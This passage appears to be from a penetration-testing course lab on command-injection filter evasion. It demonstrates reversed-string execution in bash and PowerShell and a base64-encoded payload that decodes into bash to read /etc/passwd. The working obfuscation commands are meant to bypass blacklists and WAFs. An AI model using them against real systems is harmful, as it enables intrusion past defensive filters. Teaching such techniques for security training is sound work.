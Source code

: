 Another command obfuscation technique we will discuss is reversing commands and having a command template that switches them back and executes them in real-time. In this case, we will be writing `imaohw` instead of `whoami` to avoid triggering the blacklisted command.

We can get creative with such techniques and create our own Linux/Windows commands that eventually execute the command without ever containing the actual command words. First, we'd have to get the reversed string of our command in our terminal, as follows:
```shell-session
r3so1v3@htb[/htb]$ echo 'whoami' | rev
imaohw
```

Then, we can execute the original command by reversing it back in a sub-shell (`$()`), as follows:
```shell-session
21y4d@htb[/htb]$ $(rev<<<'imaohw')

21y4d
```


The same can be applied in `Windows.` We can first reverse a string, as follows:
```powershell-session
PS C:\htb> "whoami"[-1..-20] -join ''

imaohw
```

We can now use the below command to execute a reversed string with a PowerShell sub-shell (`iex "$()"`), as follows:
```powershell-session
PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

The final technique we will discuss is helpful for commands containing filtered characters or characters that may be URL-decoded by the server. This may allow for the command to get messed up by the time it reaches the shell and eventually fails to execute. Instead of copying an existing command online, we will try to create our own unique obfuscation command this time. This way, it is much less likely to be denied by a filter or a WAF. The command we create will be unique to each case, depending on what characters are allowed and the level of security on the server.

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding). Let's take `base64` as an example. First, we'll encode the payload we want to execute (which includes filtered characters):
```shell-session
r3so1v3@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64

Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==
```

Now we can create a command that will decode the encoded string in a sub-shell (`$()`), and then pass it to `bash` to be executed (i.e. `bash<<<`), as follows:
```shell-session
r3so1v3@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```
